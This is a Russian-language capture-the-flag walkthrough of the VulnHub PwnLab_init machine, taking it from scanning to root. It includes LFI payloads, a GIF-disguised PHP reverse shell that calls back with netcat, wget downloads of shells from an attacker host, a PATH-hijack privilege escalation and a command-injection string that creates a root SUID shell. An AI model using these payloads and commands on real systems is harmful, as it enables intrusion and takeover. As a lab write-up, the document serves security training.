




# VulnHub - Lin Easy - PwnLab_init

📅 Дата: 2025-07-19  
🧠 Сложность:  
💻 IP-адрес: 192.168.56.127  

---

## Sugar

```bash
nmap_ctf() {
  local ip=$1
  sudo nmap -sS -p- -Pn --max-parallelism 100 --min-rate 1000 -v -oN nmap-sS.txt $ip && nmap -sT -Pn -sV -T4 -A -v -p "$(grep -oP \"^[0-9]+(?=/tcp\s+open)\" nmap-sS.txt | sort -n | paste -sd \",\")" -oN nmap-sV.txt $ip
}
```


## 🔍 Сканирование

```bash
export ip=192.168.56.127 && nmap_ctf $ip
```

### nmap  

```bash
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: PwnLab Intranet Image Hosting
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41582/tcp   status
|   100024  1          48227/udp   status
|   100024  1          56507/udp6  status
|_  100024  1          57744/tcp6  status
3306/tcp  open  mysql   MySQL 5.5.47-0+deb8u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.47-0+deb8u1
|   Thread ID: 40
|   Capabilities flags: 63487
|   Some Capabilities: InteractiveClient, SupportsTransactions, Speaks41ProtocolNew, ConnectWithDatabase, Speaks41ProtocolOld, ODBCClient, IgnoreSigpipes, LongPassword, FoundRows, Support41Auth, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, SupportsCompression, LongColumnFlag, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: cA[%EjgHp}Bn(v=l*+8t
|_  Auth Plugin Name: mysql_native_password
41582/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:32:5D:1E (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 0.001 days (since Sat Jul 19 22:49:10 2025)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: All zeros
```

---

## 🕵️ Enumeration  

### http  
 - `Apache httpd 2.4.10` => поиск exploit
 - `http-title: PwnLab Intranet Image Hosting` => похоже, какой-то фото хостинг, можно загружать файлы

### MySQL  
 - `Version: 5.5.47-0+deb8u1` => поиск exploit  
 - `Salt: cA[%EjgHp}Bn(v=l*+8t` может пригодиться, если получу hash пароля пользователя  
 - `Auth Plugin Name: mysql_native_password` старый метод хеширования (SHA1), уязвим к перебору паролей

Брутфорс пароля **mysql** для пользователя **root** не дал результатов
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Easy - PwnLab_init/exploits]
└─$ hydra -l root -P /media/sf_Exchange/Dictionaries/rockyou.txt mysql://$ip
```

Смотрю сайт, добавил **index.php** => страницы используют **php**  

  
Для загрузки файлов необходимо войти в учетную запись  
  

Пробую войти с **admin:admin** => **Login failed.**  
Пробую войти с **QwQwiiQ12P:admin** => **Login failed.** => не получится узнать наличие/отсутствие пользователя  

Сохраняю в файл перехваченный запрос на авторизацию, для дальнейшей проверки sqli
```bash
POST /?page=login HTTP/1.1
Host: 192.168.56.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://192.168.56.127
Connection: keep-alive
Referer: http://192.168.56.127/?page=login
Cookie: PHPSESSID=dpnaoluh3rnb68os6qdnm9mr94
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user=admin&pass=admin&submit=Login
```

sqlmap не дал результатов
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Easy - PwnLab_init/exploits]
└─$ sqlmap -r post.txt --dbs --dbms=mysql --random-agent --risk=3 --level=3 --flush-session
```

Фаззинг параметров дал только **page** и не привел к **rfi**
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Easy - PwnLab_init/exploits]
└─$ ffuf -t 100 -u http://$ip/?FUZZ=https://webhook.site/c243a41b-62be-41f2-9d61-5b56bc8e6f5b -w /media/sf_Exchange/Dictionaries/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 332 -ic -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.127/?FUZZ=https://webhook.site/c243a41b-62be-41f2-9d61-5b56bc8e6f5b
 :: Wordlist         : FUZZ: /media/sf_Exchange/Dictionaries/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 332
________________________________________________

page                    [Status: 200, Size: 265, Words: 17, Lines: 12, Duration: 378ms]
:: Progress: [6453/6453] :: Job [1/1] :: 919 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```

Фаззинг файлов и директорий дал интересные **images** и **config.php**  
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Easy - PwnLab_init/exploits]
└─$ ffuf -fc 404 -t 40 -u http://$ip/FUZZ -w /media/sf_Exchange/Dictionaries/Dir/directory-list-2.3-medium.txt -e .php,.txt,.log,.bak -fs 265 -ic -c                           

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.127/FUZZ
 :: Wordlist         : FUZZ: /media/sf_Exchange/Dictionaries/Dir/directory-list-2.3-medium.txt
 :: Extensions       : .php .txt .log .bak 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
 :: Filter           : Response size: 265
________________________________________________

login.php               [Status: 200, Size: 250, Words: 16, Lines: 6, Duration: 458ms]
upload.php              [Status: 200, Size: 19, Words: 5, Lines: 1, Duration: 5ms]
upload                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 7ms]
images                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 1288ms]
index.php               [Status: 200, Size: 332, Words: 28, Lines: 12, Duration: 1385ms]
.php                    [Status: 403, Size: 293, Words: 22, Lines: 12, Duration: 1942ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 25ms]
server-status           [Status: 403, Size: 302, Words: 22, Lines: 12, Duration: 289ms]
```

Фаззинг на **LFI** через аргумент параметра не дал результатов  
```bash
ffuf -fc 404 -t 100 -u http://$ip/?page=FUZZ -w /media/sf_Exchange/Dictionaries/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -fs 265 -ic -c
```

Фаззинг файлов с помощью **php://filter/convert.base64-encode/resource=** дал результаты для `index` без `.php`.  
Вероятно, сервер дописывает `.php` к аргументу, передаваемому параметру `?page=`
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Easy - PwnLab_init/exploits]
└─$ ffuf -fc 404 -t 40 -u http://$ip/index.php?page=php://filter/convert.base64-encode/resource=FUZZ -w /media/sf_Exchange/Dictionaries/Dir/directory-list-2.3-medium.txt -e .php,.txt,.log,.bak -fs 265 -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.127/index.php?page=php://filter/convert.base64-encode/resource=FUZZ
 :: Wordlist         : FUZZ: /media/sf_Exchange/Dictionaries/Dir/directory-list-2.3-medium.txt
 :: Extensions       : .php .txt .log .bak 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 265
 :: Filter           : Response status: 404
________________________________________________

login                   [Status: 200, Size: 1377, Words: 17, Lines: 12, Duration: 9ms]
index                   [Status: 200, Size: 1097, Words: 17, Lines: 12, Duration: 880ms]
upload                  [Status: 200, Size: 2053, Words: 17, Lines: 12, Duration: 15ms]
config                  [Status: 200, Size: 405, Words: 17, Lines: 12, Duration: 35ms]
:: Progress: [1102735/1102735] :: Job [1/1] :: 1123 req/sec :: Duration: [0:22:34] :: Errors: 0 ::
```

`RFI` к **.php** файлу не сработал `http://192.168.56.127/index.php?page=http://192.168.56.106:8888/php-reverse-shell`
 - `allow_url_include = Off` на целевом сервере, нет смысла пробовать передать код в `data://`

Если бы было `allow_url_include = On` в `php.ini`, то можно было бы попробовать
```
http://target.com/vuln.php?file=data://text/plain,<?php system("id"); ?>
http://target.com/vuln.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJpZCIpOyA/Pg==
http://target.com/vuln.php?file=expect://id
```
А также через post
```bash
curl -X POST -d "<?php system('nc 192.168.56.106 4444'); ?>" "http://192.168.56.127/index.php?page=php://input" 
```

🔐 **Полезные схемы**

| Схема           | Риск                          | Условия работы                 |
|----------------|-------------------------------|--------------------------------|
| `php://input`  | RCE через POST                 | `allow_url_include=On`        |
| `data://`      | RCE через inline-код           | `allow_url_include=On`        |
| `expect://`    | Выполнение команд              | Модуль `expect` установлен    |
| `phar://`      | RCE через архивы               | Доступ к загрузке файлов       |
| `php://filter` | Чтение файлов / обход фильтров | Всегда доступен               |
  
  
### Попытка отбросить расширение
`%00` не работает для отбрасывания расширения, так что далее буду пробовать читать содержимое доступных файлов с помощью `php://filter/convert.base64-encode/resource=`

### login.php
Использование `prepare` и `bind_param` защищает от SQL-инъекции, так как входные данные экранируются
```php
<?php
session_start();
require("config.php");
$mysqli = new mysqli($server, $username, $password, $database);

if (isset($_POST['user']) and isset($_POST['pass']))
{
	$luser = $_POST['user'];
	$lpass = base64_encode($_POST['pass']);

	$stmt = $mysqli->prepare("SELECT * FROM users WHERE user=? AND pass=?");
	$stmt->bind_param('ss', $luser, $lpass);

	$stmt->execute();
	$stmt->store_Result();

	if ($stmt->num_rows == 1)
	{
		$_SESSION['user'] = $luser;
		header('Location: ?page=upload');
	}
	else
	{
		echo "Login failed.";
	}
}
else
{
	?>
	<form action="" method="POST">
	<label>Username: </label><input id="user" type="test" name="user"><br />
	<label>Password: </label><input id="pass" type="password" name="pass"><br />
	<input type="submit" name="submit" value="Login">
	</form>
	<?php
}
```

### index.php
Интересный момент: если установлена кука `lang`, то сервер попытается выполнить **include** файла, указанного в ней из директории **/lang/**: `include("lang/".$_COOKIE['lang']);`
```php
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
	include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
<hr/><br/>
<?php
	if (isset($_GET['page']))
	{
		include($_GET['page'].".php");
	}
	else
	{
		echo "Use this server to upload and share image files inside the intranet";
	}
?>
</center>
</body>
</html>
```
**poc**

   
   
    
### upload.php
Прямой загрузки реверс-шелла через `upload.php` без авторизации не получится, так как проверка `$_SESSION['user']` блокирует доступ
```php
<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
	<body>
		<form action='' method='post' enctype='multipart/form-data'>
			<input type='file' name='file' id='file' />
			<input type='submit' name='submit' value='Upload'/>
		</form>
	</body>
</html>
<?php 
if(isset($_POST['submit'])) {
	if ($_FILES['file']['error'] <= 0) {
		$filename  = $_FILES['file']['name'];
		$filetype  = $_FILES['file']['type'];
		$uploaddir = 'upload/';
		$file_ext  = strrchr($filename, '.');
		$imageinfo = getimagesize($_FILES['file']['tmp_name']);
		$whitelist = array(".jpg",".jpeg",".gif",".png"); 

		if (!(in_array($file_ext, $whitelist))) {
			die('Not allowed extension, please upload images only.');
		}

		if(strpos($filetype,'image') === false) {
			die('Error 001');
		}

		if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
			die('Error 002');
		}

		if(substr_count($filetype, '/')>1){
			die('Error 003');
		}

		$uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

		if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
			echo "<br />";
		} else {
			die('Error 4');
		}
	}
}

?>
```

### config.php
```php
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

Вначале пробую подключиться к **mysql** и осмотреться там, потом буду пробовать загрузить реверс шелл
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Easy - PwnLab_init/exploits]
└─$ mysql -h 192.168.56.127 -u root -p'H4u%QJ_H99' -D Users
ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Easy - PwnLab_init/exploits]
└─$ mysql -h 192.168.56.127 -u root -p'H4u%QJ_H99' -D Users --ssl-mode=DISABLED
mysql: unknown variable 'ssl-mode=DISABLED'
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Easy - PwnLab_init/exploits]
└─$ mysql -h 192.168.56.127 -u root -p'H4u%QJ_H99' -D Users --ssl=0            
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 386311
Server version: 5.5.47-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [Users]> 
```

В mysql не густо
```mysql
MySQL [Users]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.004 sec)

MySQL [Users]> SHOW TABLES;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.003 sec)

MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.078 sec)

MySQL [Users]> 
```

Похоже, что пароли закодированы в base64  
```
+------+------------+
| user | pass       |
+------+------------+
| kent | JWzXuBJJNy |
| mike | SIfdsTEn6I |
| kane | iSv5Ym2GRo |
+------+------------+
```

`root:H4u%QJ_H99` не подходит для аутентификации на сайте, вошел как `kent:JWzXuBJJNy`  

Загружаю **png** файл размером 95 байт, чтобы посмотреть запрос.
Загруженный файл отображается в `/uploads/`


Имя генерируется, как и написано в коде **php**, с помощью **md5**  
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Easy - PwnLab_init/exploits]
└─$ echo -n "1x1.png" | md5sum                             
ca56c702061e583af4bb4b38e0d51de3  -
```


## 📂 Получение доступа

Загружаю на сайт **reverse shell**  
```php
POST /?page=upload HTTP/1.1
Host: 192.168.56.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary523ec894ec88275e72cf06a63a27b888
Content-Length: 383
Origin: http://192.168.56.127
Connection: keep-alive
Referer: http://192.168.56.127/?page=upload
Cookie: PHPSESSID=m9fra4gu6lbj17fvqo2u93flf3
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary523ec894ec88275e72cf06a63a27b888
Content-Disposition: form-data; name="file"; filename="aaa.gif"
Content-Type: image/gif

GIF89a<?php system('nc -e /bin/sh 192.168.56.106 4444'); ?>
------geckoformboundary523ec894ec88275e72cf06a63a27b888
Content-Disposition: form-data; name="submit"

Upload
------geckoformboundary523ec894ec88275e72cf06a63a27b888--
```

В ответе получаю расположение загруженного файла: `upload/cc4815dae10b7407415261ef0256ed75.gif`

Далее это значение нужно вставить в куку **lang** для **LFI**, делаю это также в **Burp**  
```php
GET /index.php?page=php://filter/convert.base64-encode/resource=config HTTP/1.1
Host: 192.168.56.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Cookie: lang=../upload/cc4815dae10b7407415261ef0256ed75.gif


```

Получаю реверс и немного улучшаю его  
```bash
┌──(kali㉿0x2d-pentest)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.56.106] from (UNKNOWN) [192.168.56.127] 53841
pwd
/var/www/html
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@pwnlab:/var/www/html$ 
```

Запускаю сервер, чтобы загрузить **reverse shell** от **pentestmonkey**  
```bash
┌──(kali㉿0x2d-pentest)-[/usr/share/webshells/php]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

И загружаю постоянную страницу `shell.php` для удобства дальнейшей эксплуатации  
```bash
www-data@pwnlab:/var/www/html$ ls -la
ls -la
total 28
drwxr-xr-x 3 www-data www-data 4096 Mar 17  2016 .
drwxr-xr-x 4 www-data www-data 4096 Jul 20 21:07 ..
-rwxr-xr-x 1 www-data www-data  105 Mar 16  2016 config.php
drwxr-xr-x 2 www-data www-data 4096 Mar 17  2016 images
-rwxr-xr-x 1 www-data www-data  623 Mar 16  2016 index.php
-rwxr-xr-x 1 www-data www-data  832 Mar 17  2016 login.php
lrwxrwxrwx 1 root     root        5 Mar 17  2016 upload -> /tmp/
-rwxr-xr-x 1 www-data www-data 1339 Mar 16  2016 upload.php
www-data@pwnlab:/var/www/html$ which wget
which wget
/usr/bin/wget
www-data@pwnlab:/var/www/html$ wget http://192.168.56.106:8888/php-reverse-shell.php -O shell.php
<ml$ wget http://192.168.56.106:8888/php-reverse-shell.php -O shell.php      
converted 'http://192.168.56.106:8888/php-reverse-shell.php' (ANSI_X3.4-1968) -> 'http://192.168.56.106:8888/php-reverse-shell.php' (UTF-8)
--2025-07-21 19:15:21--  http://192.168.56.106:8888/php-reverse-shell.php
Connecting to 192.168.56.106:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5496 (5.4K) [application/octet-stream]
Saving to: 'shell.php'

shell.php           100%[=====================>]   5.37K  --.-KB/s   in 0s     

2025-07-21 19:15:21 (1.18 GB/s) - 'shell.php' saved [5496/5496]

www-data@pwnlab:/var/www/html$
```

Перехожу в браузере в шелл `http://192.168.56.127/shell.php`  

И немного улучшаю  
```bash
┌──(kali㉿0x2d-pentest)-[~]
└─$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [192.168.56.106] from (UNKNOWN) [192.168.56.127] 56261
Linux pwnlab 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) i686 GNU/Linux
 19:16:39 up  3:53,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@pwnlab:/$ export TERM=xterm
export TERM=xterm
www-data@pwnlab:/$ stty rows 50 columns 132
stty rows 50 columns 132
www-data@pwnlab:/$ which socat
which socat
www-data@pwnlab:/$ 
```


## ⚙️ Привилегии

Перехожу в директорию `/tmp/`, где у меня есть возможность записи.
Скачиваю `linpeas.sh` и запускаю  
```bash
www-data@pwnlab:/tmp$ wget http://192.168.56.106:8888/linpeas.sh
wget http://192.168.56.106:8888/linpeas.sh
www-data@pwnlab:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@pwnlab:/tmp$ ./linpeas.sh
```

### Система  
```bash
                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                               
                               ╚═══════════════════╝                                                              
OS: Linux version 3.16.0-4-686-pae (debian-kernel@lists.debian.org) (gcc version 4.8.4 (Debian 4.8.4-1) ) #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29)
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
Hostname: pwnlab
```

### Пользователи  
```bash
╔══════════╣ Users with console
john:x:1000:1000:,,,:/home/john:/bin/bash                                                                         
kane:x:1003:1003:,,,:/home/kane:/bin/bash
kent:x:1001:1001:,,,:/home/kent:/bin/bash
mike:x:1002:1002:,,,:/home/mike:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

### Soft
```bash
╔══════════╣ Useful software
/usr/bin/base64                                                                                                   
/usr/bin/gcc
/bin/nc
/bin/nc.traditional
/bin/netcat
/usr/bin/perl
/usr/bin/php
/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/wget
╔══════════╣ Installed Compilers
ii  gcc                           4:4.9.2-2                   i386         GNU C compiler                         
ii  gcc-4.9                       4.9.2-10                    i386         GNU C compiler
/usr/bin/gcc
```

95% векторов атаки не нашлось, запускал для разных пользователей.
У пользователя `kane` обнаружил следующее  
```bash
╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
-rwsr-sr-x 1 mike mike 5148 Mar 17  2016 /home/kane/msgmike
```

Выполнение дало ошибку:
```bash
kane@pwnlab:/tmp$ /home/kane/msgmike
/home/kane/msgmike
cat: /home/mike/msg.txt: No such file or directory
```

Проверяю уязвимость в `$PATH` и получаю оболочку от `mike`  
```bash
kane@pwnlab:/tmp$ echo '/bin/bash' > cat
kane@pwnlab:/tmp$ chmod 777 cat
kane@pwnlab:/tmp$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
kane@pwnlab:/tmp$ export PATH=/tmp:$PATH
kane@pwnlab:/tmp$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
kane@pwnlab:/tmp$ /home/kane/msgmike
mike@pwnlab:/tmp$ id
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
mike@pwnlab:/tmp$ 

```

`linpeas` у Майка работать не захотел, вручную ищу вектора  
```bash
mike@pwnlab:/tmp$ sudo -l
sudo -l
bash: sudo: command not found
mike@pwnlab:/tmp$ find / -type f -perm -04000 -ls 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null
  3603   36 -rwsr-xr-x   1 root     root        34684 Mar 29  2015 /bin/mount
  4989   40 -rwsr-xr-x   1 root     root        38868 Nov 19  2015 /bin/su
  3604   28 -rwsr-xr-x   1 root     root        26344 Mar 29  2015 /bin/umount
 18810   96 -rwsr-xr-x   1 root     root        96760 Aug 13  2014 /sbin/mount.nfs
 27220    8 -rwsr-sr-x   1 root     root         5364 Mar 17  2016 /home/mike/msg2root
 27221    8 -rwsr-sr-x   1 mike     mike         5148 Mar 17  2016 /home/kane/msgmike
  5009   40 -rwsr-xr-x   1 root     root        38740 Nov 19  2015 /usr/bin/newgrp
   354   52 -rwsr-xr-x   1 root     root        52344 Nov 19  2015 /usr/bin/chfn
 17895   52 -rwsr-sr-x   1 daemon   daemon      50644 Sep 30  2014 /usr/bin/at
   358   52 -rwsr-xr-x   1 root     root        53112 Nov 19  2015 /usr/bin/passwd
 18898   96 -rwsr-sr-x   1 root     mail        96192 Feb 11  2015 /usr/bin/procmail
   355   44 -rwsr-xr-x   1 root     root        43576 Nov 19  2015 /usr/bin/chsh
   357   80 -rwsr-xr-x   1 root     root        78072 Nov 19  2015 /usr/bin/gpasswd
 11725    8 -rwsr-xr-x   1 root     root         5372 Feb 24  2014 /usr/lib/eject/dmcrypt-get-device
  2813   12 -rwsr-xr-x   1 root     root         9540 Feb 11  2016 /usr/lib/pt_chown
 18078  356 -rwsr-xr--   1 root     messagebus   362672 Aug  2  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
 18859  552 -rwsr-xr-x   1 root     root       562536 Jan 13  2016 /usr/lib/openssh/ssh-keysign
 17980 1060 -rwsr-xr-x   1 root     root      1085236 Mar 13  2016 /usr/sbin/exim4
mike@pwnlab:/tmp$ 
```

Выполняю `/home/mike/msg2root`  
```bash
mike@pwnlab:/tmp$ /home/mike/msg2root
/home/mike/msg2root
Message for root: test
test
mike@pwnlab:/tmp$ strings /home/mike/msg2root
```

И нахожу там такие строки  
```bash
[^_]
Message for root: 
/bin/echo %s >> /root/messages.txt
;*2$"(
```

Похоже, что если я передам `test; cp /bin/bash /tmp/sh; chmod +s /tmp/sh; /bin/echo nothing > /dev/null`  
то выполнится следующая череда команд с правами **root**  
```bash
/bin/echo test; cp /bin/bash /tmp/sh; chmod +s /tmp/sh; /bin/echo nothing > /dev/null >> /root/messages.txt
```

## 🏁 Флаги

Важно использовать не `cat`, который я ранее подменил, а `/bin/cat` для чтения флага  
```bash
mike@pwnlab:/tmp$ ./bash -p
./bash -p
bash-4.3# id
id
uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)
bash-4.3# cd /root 
cd /root
bash-4.3# ls -la
ls -la
total 20
drwx------  2 root root 4096 Mar 17  2016 .
drwxr-xr-x 21 root root 4096 Mar 17  2016 ..
lrwxrwxrwx  1 root root    9 Mar 17  2016 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
----------  1 root root 1840 Mar 17  2016 flag.txt
lrwxrwxrwx  1 root root    9 Mar 17  2016 messages.txt -> /dev/null
lrwxrwxrwx  1 root root    9 Mar 17  2016 .mysql_history -> /dev/null
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
bash-4.3# /bin/cat flag.txt
/bin/cat flag.txt
.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
(_ ___)  _____                             _                            (_ ___)
(__  _) /  __ \                           | |                           (__  _)
( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)
(__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)
(_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)
(__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)
( _ __)                     __/ |                                       ( _ __)
(__  _)                    |___/                                        (__  _)
(__  _)                                                                 (__  _)
(_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)
( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)
(__  _) this challenge.                                                 (__  _)
(_ ___)                                                                 (_ ___)
( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)
(__  _) reading it                                                      (__  _)
(__  _)                                                                 (__  _)
(__  _)                                             For sniferl4bs.com  (__  _)
( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)
(__  _)                                                                 (__  _)
(_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)
`-._.-'                                                                 `-._.-'
bash-4.3# 
```


---

## 📋 Резюме

🧰 **Инструменты:**
  - nmap, ffuf, и др.

🚨 **Уязвимости, которые удалось обнаружить:**  
  - Directory Traversal  
  - RCE через уязвимый скрипт  

🛡 **Советы по защите:**
  - Использовать сложные пароли и ограничить число попыток входа
  - Обновлять ПО до актуальных версий
  - Удалять/ограничивать использование SUID-бинарников
  - Настроить логирование и мониторинг системных событий
  - Применять принцип наименьших привилегий


